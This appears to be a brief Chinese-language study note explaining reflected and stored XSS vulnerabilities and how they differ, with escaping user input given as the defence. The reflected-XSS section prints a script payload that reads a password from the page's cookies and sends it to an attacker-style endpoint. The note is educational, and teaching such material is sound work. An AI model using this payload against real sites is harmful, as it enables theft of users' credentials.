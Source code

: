# 反射型xss漏洞
- 攻击者往目标网站的url中添加可执行的代码，诱使目标网站的用户点击，目标网站将攻击参数当成普通字符串添加到了网页中导致攻击被执行。
```js
<script>
var mess = document.cookie.match(new%20RegExp("password=([^;]*)"))[0]; 

window.location="http://localhost:8080/attacter/index.jsp?info="%2Bmess
</script>
```

# 保存型xss漏洞
它是将攻击脚本保存到被攻击的网页内，所有浏览该网页的用户都要执行这段攻击脚本。
- 攻击方法：网站允许提交评论，用户名等信息，但攻击者向网站提交可执行的html代码
- 转译用户提交的内容。

#区别
反射型一次只能攻击一个用户
保存型，可以代码被网站后台保存，所有访问用户都会被攻击